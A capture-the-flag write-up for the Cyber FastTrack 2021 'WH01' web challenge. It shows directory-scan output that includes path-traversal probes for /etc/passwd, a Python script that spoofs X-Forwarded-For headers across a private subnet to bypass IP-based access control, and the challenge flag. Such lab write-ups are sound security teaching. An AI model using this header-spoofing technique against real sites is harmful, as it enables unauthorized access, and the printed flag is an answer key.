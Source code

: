 # Cyber FastTrack Spring 2021

### Solver: Will Green ([Ducky](https://github.com/wlg0005))
### Challenge: WH01
### Category: Web (Hard)

## Description:
#### [500 pts]: Access the site at https://cfta-wh01.allyourbases.co and find a way to get the flag from the CMS.

## Walkthrough:
Navigating to the provided URL, we're presented with a simple blog page:

![](WH01%20Writeup.001.png)

Doing the standard things such as looking at the page source and analyzing the requests to the site didn't show anything interesting. So let's use [Dirsearch](https://github.com/maurosoria/dirsearch) to see if we can find any hidden directories/files:

`python3 dirsearch.py -u https://ctfa-wh01.allyourbases.co/ -e .html`

```bash
  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: html | HTTP method: GET | Threads: 30 | Wordlist size: 8913

Error Log: /media/sf_CTFs/CyberFastTrack/Web/WH01/dirsearch/logs/errors-21-04-07_16-05-25.log

Target: https://cfta-wh01.allyourbases.co/

Output File: /media/sf_CTFs/CyberFastTrack/Web/WH01/dirsearch/reports/cfta-wh01.allyourbases.co/_21-04-07_16-05-25.txt

[16:05:25] Starting: 
[16:05:27] 400 -    0B  - /..;/
[16:05:36] 200 -   16B  - /404.html
[16:05:40] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[16:05:42] 304 -    0B  - /admin.html
[16:05:58] 200 -  616B  - /index.html
[16:06:08] 200 -  154B  - /readme.txt
[16:06:09] 400 -  371B  - /servlet/%C0%AE%C0%AE%C0%AF
[16:06:10] 200 -    0B  - /soap/
```

Nice, we found some hidden files! `/admin.html` is pretty interesting but if you navigate to it, you will find that it is just a blank page. So let's take a look at `/readme.txt`:

```
To use the CMS make sure to visit /admin.html from allowed IPs on the local network.

Note: Tell engineering to stop moving the subnet from 192.168.0.0/24
```

It seems that in order for us to access `/admin.html` we need to trick the server into believing that we are coming from a local IP in the `192.168.0.0/24` range.

We can accomplish this by adding the [`X-Forwarded-For`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) HTTP header and setting it to a local IP. However, if we just try an IP such as `192.168.0.1` we still get a blank page from `/admin.html`. So we need to find a specific IP that the server will recognize is on the local network.

I accomplished this by creating a script that would bruteforce all of the IPs:

```python
import requests

# admin.html url
url = 'https://cfta-wh01.allyourbases.co/admin.html'

# holds the last digit of IP
ip = 0

# while we haven't found a valid IP
while True:

    print("Trying", f"192.168.0.{ip}")
    
    # Send a GET request to the server with the X-Forwarded-For header
    # set to the current local IP
    r = requests.get(url,headers={"X-Forwarded-For":f"192.168.0.{ip}"})
    
    # if there's 'flag' in the site text, we found the flag
    if 'flag' in r.text:
        print(r.text)
        break

    ip +=1 # increment the last digit of the ip by 1
```

Running the script we find a valid IP to be `192.168.0.62` and we get the flag

### Flag: iPSpooFinGWiThHopHeaDers91918
